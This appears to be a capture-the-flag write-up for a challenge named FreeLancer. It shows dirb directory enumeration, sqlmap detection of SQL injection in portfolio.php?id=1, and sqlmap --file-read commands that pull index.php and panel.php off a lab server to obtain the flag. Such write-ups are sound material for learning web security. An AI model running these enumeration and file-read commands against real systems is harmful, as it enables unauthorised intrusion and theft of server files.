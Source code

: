 # FreeLancer
![Screenshot from 2021-08-16 17-56-39](https://user-images.githubusercontent.com/87865134/129553366-2dd0e7e3-e195-4809-aad5-839d1d69786c.png)

##  Information gathering
- Use `dirb` to find hidden directories and files
```
dirb http://139.59.166.56:30387/
```
![Screenshot from 2021-08-16 18-17-02](https://user-images.githubusercontent.com/87865134/129555520-6fd78927-00e8-44bc-a6cd-b7ff707ccc20.png)


> Found hidden directory `administrat`

- View source code => found url `portfolio.php?id=1`

![Screenshot from 2021-08-16 17-57-21](https://user-images.githubusercontent.com/87865134/129553541-f63e8b12-226e-4bf8-b425-bca70168eccf.png)

##  Analysis vulnerabilities
- Test **SQLi** in url `/portfolio.php?id=1`
  - use `sqlmap`

  ``` 
  sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" 
  ```
  > => SQLi

![Screenshot from 2021-08-16 18-04-59](https://user-images.githubusercontent.com/87865134/129554258-f54a31b5-7375-4698-b77f-173264ba21f5.png)

- Navigate to url `/administrat/` 

![Screenshot from 2021-08-16 18-07-14](https://user-images.githubusercontent.com/87865134/129554493-488b2528-1a62-474c-8470-46de99f2ab1c.png)

> `/administrat/` has file `index.php` 

##  Exploit
- Use `sqlmap` to read file `index.php` in directory `/administrat/`
```
sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" --file-read=/var/www/html/administrat/index.php
```
![Screenshot from 2021-08-16 18-09-41](https://user-images.githubusercontent.com/87865134/129554772-40eb4f08-e3fe-4b11-a861-4e239df82dbc.png)

> file is saved in `/home/ndqk/.local/share/sqlmap/output/139.59.166.56/files/_var_www_html_administrat_index.php `

- open file to read   

![Screenshot from 2021-08-16 18-11-27](https://user-images.githubusercontent.com/87865134/129554974-d7887c54-e518-4114-9ab5-a2576234c0fd.png)

- Code:
```php
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
  header("location: panel.php");
  exit;
}
```
> if login successfully then go to `panel.php` => `panel.php` may contain sensitive data

- Use `sqlmap` to read file `panel.php`
```
sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" --file-read=/var/www/html/administrat/panel.php
```
![Screenshot from 2021-08-16 18-15-14](https://user-images.githubusercontent.com/87865134/129555336-1ba30512-8281-420b-b66f-eb8b9802b8b0.png)

![Screenshot from 2021-08-16 18-19-30](https://user-images.githubusercontent.com/87865134/129555787-6176cbe9-2134-4274-9da2-46b175b9d4e6.png)

> Found flag

##  Description
> **category:** SQL injection
